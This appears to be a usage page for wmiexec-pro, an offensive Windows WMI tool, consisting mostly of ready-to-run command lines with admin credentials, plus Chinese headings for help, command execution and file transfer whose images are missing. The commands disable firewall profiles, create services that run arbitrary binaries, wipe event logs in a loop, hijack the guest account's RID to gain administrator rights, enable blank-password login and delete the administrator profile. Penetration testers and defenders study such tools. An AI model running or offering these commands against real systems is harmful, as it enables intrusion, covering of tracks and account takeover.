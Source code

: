     Firewall (Only support win8+):   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -search-port 445   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -dump (Dump all firewall rules)   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -rule-id (ID from search port) -action [enable/disable/remove] (enable, disable, remove specify rule)   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -firewall-profile enable (Enable all firewall profiles)   python3 wmiexec-pro.py administrator:password@192.168.1.1 firewall -firewall-profile disable (Disable all firewall profiles)   Services:   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action create -service-name "test" -display-name "For test" -bin-path 'C:\windows\system32\calc.exe'   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action create -service-name "test" -display-name "For test" -bin-path 'C:\windows\system32\calc.exe' -class "Win32_TerminalService" (Create service via alternative class)   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action start -service-name "test"   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action stop -service-name "test"   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action disable -service-name "test"   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action auto-start -service-name "test"   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action manual-start -service-name "test"   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action getinfo -service-name "test"   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -action delete -service-name "test"   python3 wmiexec-pro.py administrator:password@192.168.1.1 service -dump all-services.json  
    Eventlog:   python3 wmiexec-pro.py administrator:password@192.168.1.1 eventlog -risk-i-know (Looping cleaning eventlog)   python3 wmiexec-pro.py administrator:password@192.168.1.1 eventlog -retrive object-ID (Stop looping cleaning eventlog)  
    RID Hijack:   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action grant (Grant access permissions for SAM/SAM subkey in registry)   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action grant-old (For old version OS, such as server 2003)   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action activate (Activate user)   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action deactivate (Deactivate user)   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 501 -action hijack -user 501 -hijack-rid 500 (Hijack guest user rid 501 to administrator rid 500)   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -blank-pass-login enable (Enable blank password login)   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -blank-pass-login disable   python3 wmiexec-pro.py administrator:password@192.168.1.1 rid-hijack -user 500 -action backup (This will save user profile data as json file)   python3 wmiexec-pro.py guest@192.168.1.1 -no-pass rid-hijack -user 500 -remove (Use guest user remove administrator user profile after rid hijacked)   python3 wmiexec-pro.py guest@192.168.1.1 -no-pass rid-hijack -restore "backup.json" (Restore user profile for target user)   

**帮助**  

![]()

  
 **执行命令**

![]()

  
 **文件传输**  
  
上传文件  

![]()

下载文件
